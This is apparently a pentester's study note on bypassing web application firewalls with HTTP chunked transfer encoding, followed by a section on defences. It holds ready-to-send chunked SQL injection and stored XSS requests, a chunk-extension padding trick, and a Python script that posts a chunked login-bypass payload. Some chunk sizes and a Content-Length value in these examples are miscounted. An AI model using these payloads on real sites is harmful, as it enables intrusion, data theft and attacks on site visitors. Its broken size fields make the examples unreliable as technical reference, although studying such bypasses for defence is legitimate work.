

# 39.11 Chunked Transfer Encoding Bypass

## Introduction to Chunked Transfer Encoding

Chunked Transfer Encoding (CTE) is an HTTP/1.1 mechanism designed to send data in a series of "chunks" when the total size of the message body is not known in advance. While originally intended for streaming dynamic content and optimizing memory usage on servers, CTE has become a critical focal point for Web Application Firewall (WAF) evasion.

When an HTTP request employs `Transfer-Encoding: chunked`, the `Content-Length` header is omitted. Instead, the message body is divided into multiple parts, each preceded by its size in hexadecimal format, followed by a carriage return and line feed (CRLF). The message is terminated by a chunk of size zero (`0\r\n\r\n`).

From a security perspective, WAFs often struggle with CTE because payload inspection requires complete reassembly of the HTTP body. If a WAF processes chunks individually or implements flawed reassembly logic, a malicious payload split across several chunks will evade detection. The backend application, adhering strictly to RFC 7230, reassembles the chunks seamlessly and processes the malicious payload.

This note explores the intricate details of chunked transfer encoding bypasses, from core concepts and architectural flaws to advanced exploitation techniques and robust mitigation strategies.

## Core Concepts and HTTP/1.1 RFC Compliance

According to RFC 7230, the chunked encoding modifies the body of a message to transfer it as a series of chunks, each with its own size indicator. The standard dictates strict parsing rules that both WAFs and web servers must follow.

### Standard Chunked Request Structure

A standard POST request utilizing chunked encoding looks like this:

```http
POST /submit HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

4
user
5
=admi
1
n
0

```

In this example:
- `4` is the hex size of the first chunk "user".
- `5` is the hex size of the second chunk "=admi".
- `1` is the hex size of the third chunk "n".
- `0` signals the end of the chunked message.

The backend application will reassemble this into `user=admin`. 
If a WAF is searching for the string `admin`, it will not find it in any individual chunk, thus bypassing the filter. The WAF's regular expressions operate on the raw data stream, completely missing the concatenated payload.

## ASCII Diagram: Chunked Transfer Encoding Flow



## Mechanics of the Bypass

### 1. Naive Inspection
Many legacy or poorly configured WAFs process data as it arrives on the wire. They apply regular expressions to the stream. If the signature is `/SELECT.+FROM/i`, a chunked payload like `SEL\r\nECT` will never match the signature because the letters are separated by chunk boundaries and size declarations. The WAF fails to recognize the structural context of the HTTP payload.

### 2. Flawed Reassembly (Impedance Mismatch)
Some WAFs attempt to reassemble the chunked body before inspection. However, impedance mismatches between how the WAF parses the chunks and how the backend web server parses them can lead to bypasses.
For instance, if an attacker uses malformed chunk extensions (e.g., `4;param=value\r\n`), the WAF might throw an error or truncate the body, assuming it's invalid, while the backend server (like Tomcat or IIS) might generously ignore the extension and process the chunk, executing the hidden payload. This discrepancy in error handling is a fundamental cause of WAF bypasses.

### 3. Header Obfuscation
Attackers often try to hide the `Transfer-Encoding` header from the WAF while ensuring the backend server still respects it.
Examples:
- `Transfer-Encoding: chunked, identity`
- `Transfer-Encoding: \tchunked`
- `X-Transfer-Encoding: chunked`

If the WAF misses the header due to strict parsing, it falls back to `Content-Length` (which might be 0 or absent), inspecting an empty body. The backend server, however, parses the obscure `Transfer-Encoding` header and processes the hidden chunked body.

## Exploitation Steps & Attack Scenarios

### Scenario A: SQL Injection Bypass

Assume a login endpoint vulnerable to SQL Injection, but protected by a WAF blocking the keyword `UNION`.

Standard Payload:
```http
POST /login HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 38

username=admin' UNION SELECT 1,2,3-- &password=foo
```

Chunked Bypass Payload:
```http
POST /login HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

10
username=admin' 
1
U
1
N
1
I
1
O
1
N
14
 SELECT 1,2,3-- 
0

```
The WAF never sees the contiguous string `UNION`, only individual characters separated by HTTP chunk metadata. The database driver behind the web application receives the perfectly formed SQL query.

### Scenario B: Cross-Site Scripting (XSS)

A stored XSS vulnerability exists, but the WAF blocks `<script>`.

```http
POST /comment HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

8
comment=
1
<
1
s
1
c
1
r
1
i
1
p
1
t
13
>alert(1)</sc
4
ript>
0

```

In this scenario, the payload is injected into a comment field. The WAF inspects the incoming POST request but fails to identify the `<script>` tag due to the chunk boundaries. The application stores the comment, and when a victim views it, the XSS payload is executed in their browser.

## Advanced Techniques

### Chunk Extensions
RFC 7230 allows chunk extensions. Attackers can inject WAF evasion padding or attempt to cause parsing desynchronization.

```http
POST / HTTP/1.1
Host: target.com
Transfer-Encoding: chunked

5;ext=padpadpadpadpadpadpadpad
admin
0

```

If a WAF has a buffer limit for chunk headers, a massive extension might cause it to skip inspecting the actual chunk data, whereas the backend safely ignores the extension. Furthermore, specific extension characters like `=` or `;` might trigger parser bugs in the WAF that the robust backend server handles gracefully.

### Pipelining & HTTP Desync (Request Smuggling)
Chunked encoding is the fundamental building block for HTTP Request Smuggling (CL.TE or TE.CL attacks). By exploiting discrepancies in how the front-end (WAF/Load Balancer) and back-end interpret `Content-Length` versus `Transfer-Encoding`, attackers can smuggle entire requests past the WAF's ruleset. This leads to profound vulnerabilities, including cache poisoning and session hijacking.

## Automation and Tooling

### Python Exploitation Script
A simple Python script to automatically chunk a payload:

```python
import http.client
import urllib.parse

def chunk_data(data, chunk_size=2):
    chunked = ""
    for i in range(0, len(data), chunk_size):
        chunk = data[i:i+chunk_size]
        chunked += f"{len(chunk):x}\r\n{chunk}\r\n"
    chunked += "0\r\n\r\n"
    return chunked

host = "target.com"
payload = "username=admin' OR 1=1--"
chunked_payload = chunk_data(payload, 1)

conn = http.client.HTTPConnection(host)
headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "Transfer-Encoding": "chunked"
}

conn.request("POST", "/login", body=chunked_payload.encode('utf-8'), headers=headers)
response = conn.getresponse()
print(response.read().decode())
```

This script automates the tedious process of calculating hexadecimal lengths and inserting CRLF characters. Penetration testers often integrate similar logic into their custom exploitation frameworks.

### Burp Suite Extensions
- **Chunked threat**: Automatically chunks requests in Burp Suite Repeater/Intruder to test WAF behavior on the fly. This extension allows fine-grained control over chunk sizes and the introduction of random delays between chunks.
- **HTTP Request Smuggler**: Tests for TE.CL / CL.TE desync vulnerabilities natively utilizing chunked encoding anomalies.

## Mitigation and Defense Strategies

### 1. WAF Reassembly
Modern, enterprise-grade WAFs must be configured to fully reassemble HTTP chunks before applying signature detection or behavioral analysis. ModSecurity, for instance, buffers the entire request body by default (up to `SecRequestBodyLimit`) before rule processing. This ensures that the WAF sees exactly what the backend application will see.

### 2. HTTP/2 Migration
HTTP/2 does not support chunked transfer encoding (it uses its own binary framing mechanism). Enforcing HTTP/2 strictly between the WAF and the backend server eliminates traditional HTTP/1.1 chunked encoding bypasses. However, downgrading attacks must be monitored.

### 3. Normalization
WAFs should normalize requests by rejecting malformed chunk extensions or ambiguous headers. 
Example ModSecurity rule to block abnormal Transfer-Encoding headers:
```apache
SecRule REQUEST_HEADERS:Transfer-Encoding "!^chunked$" \
    "id:1001,phase:1,deny,status:400,msg:'Invalid Transfer-Encoding header'"
```
This rule ensures that variations like `chunked, identity` or `\tchunked` are immediately blocked, preventing header obfuscation attacks.

### 4. Strict RFC Parsing
Ensure both the WAF and backend web server enforce strict HTTP parsing. Reject requests that contain both `Content-Length` and `Transfer-Encoding` (unless handled securely per RFC 7230, which mandates ignoring `Content-Length` if `Transfer-Encoding` is present). Any deviation from the RFC should be treated as malicious intent.

### 5. Backend Hardening
While WAFs are the first line of defense, the backend application must be hardened against injection attacks. Proper use of parameterized queries, output encoding, and strong input validation ensures that even if a payload bypasses the WAF using chunked encoding, it cannot compromise the application.

## Chaining Opportunities
- **HTTP Request Smuggling:** CTE is the primary vector for creating TE.CL and CL.TE request smuggling attacks.
- **SQL Injection:** Evading WAFs to successfully exploit backend databases using fragmented SQL keywords.
- **Command Injection:** Splitting OS commands across chunks to execute unauthorized commands on the host system.

## Related Notes
- [[12 - Content-Type Switching]]
- [[13 - JSON XML Wrapping]]
- [[02 - HTTP Request Smuggling]]
- [[05 - WAF Evasion Basics]]
- [[22 - Advanced SQL Injection]]
